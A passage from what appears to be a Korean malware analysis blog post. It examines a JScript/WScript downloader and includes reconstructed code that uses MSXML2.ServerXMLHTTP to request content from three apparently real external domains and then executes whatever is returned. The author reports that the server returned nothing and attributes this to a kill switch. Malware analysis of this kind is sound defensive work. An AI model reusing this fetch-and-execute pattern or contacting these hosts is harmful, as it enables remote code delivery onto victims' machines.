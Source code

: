 해당 사이트들에 접속해서 contents(Execute할 Code)를 Parse해 온다.

```javascript
FQ96[3](fS85)();
WScript.Quit();
```

이후 FQ96[3]에 contents를 넘기고 스크립트는 끝이난다.

웹사이트 파싱을통해 새로운 Script를 로드해 실행하는것이다.



**하지만.....**

```javascript
Za84 = ["www.test.wynajem-lcd.pl", "www.o4j.de", "www.be-and-do.com"];
```

```javascript
Za84 = ["www.test.wynajem-lcd.pl", "www.o4j.de", "www.be-and-do.com"];
Wr86 = WScript.CreateObject('MSXML2.ServerXMLHTTP');
yY44 = Math.random().toString()["substr"](2, 70 + 30);
Wr86.open('GET', 'http://' + Za84[0] + '/forum.php?ehhtlxeegbuni=' + yY44, false);
Wr86.send();

WScript.Echo(Wr86.responseText);
```

실제로 해당 스크립트를 Run해보면, 출력되는 메세지는 ""이다.

서버는 열려있으나 이후 추가적으로 실행되는 악성 JS코드는 노출이 되지 않았다.

해당 스크립트를 만든이가 별도의 웹서버를 통해 **Kill Switch**장치를 해 둔 것이다.

FQ96[3]를 통해 코드를 실행 하는데, 실행할 코드가 없으므로 더이상 분석이 불가능했다.



해당 악성코드에 대한 추측을 해 보자면,

아까 생성한 Hv129167.tmp파일에 악성바이너리를 덮어 실행하는 행위지 않을까 싶다.

킬스위치가 꺼 있어서 진짜 많이 아쉽다 ㅠㅠ